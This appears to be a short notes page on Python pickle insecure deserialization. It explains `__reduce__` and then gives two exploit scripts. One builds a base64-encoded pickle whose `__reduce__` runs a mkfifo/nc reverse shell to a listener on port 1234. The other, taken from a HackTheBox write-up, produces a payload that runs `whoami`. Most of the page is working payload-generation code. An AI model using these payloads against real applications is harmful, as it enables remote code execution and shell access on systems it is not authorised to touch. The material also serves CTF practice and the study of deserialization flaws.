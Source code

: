 # more technologies will be added soon !

### python pickle

### `__reduce__`

- In Python, `__reduce__` is a special method that allows you to customize the process of object serialization and deserialization using the `pickle` module. 
- When an object is pickled, the `__reduce__` method is called to provide a custom way to represent the object's state as a tuple.
- The `__reduce__` method should return a tuple that contains:

1. A callable (usually a class or a function) that will be used to reconstruct the object during unpickling.
2. A tuple of arguments to be passed to the callable when reconstructing the object.


### Exploit example [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```

## another Example

- exploit for this object 
```
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

- this exploit [source](https://0x00sec.org/t/pickle-insecure-deserialization-hackthebox-baby-website-rick/27130)
```python
#!/usr/bin/env python
import pickle
import pickletools
from base64 import b64encode
import subprocess


class anti_pickle_serum(object):
    def __reduce__(self):
        cmd=['whoami']
        return subprocess.check_output , (cmd,)


exploit_obj = anti_pickle_serum()

exploit_obj_data = pickle.dumps({"serum":exploit_obj} , protocol=0)

optmized_obj=pickletools.optimize(exploit_obj_data)
pickletools.dis(optmized_obj)

payload = b64encode(exploit_obj_data)

print(payload)


```

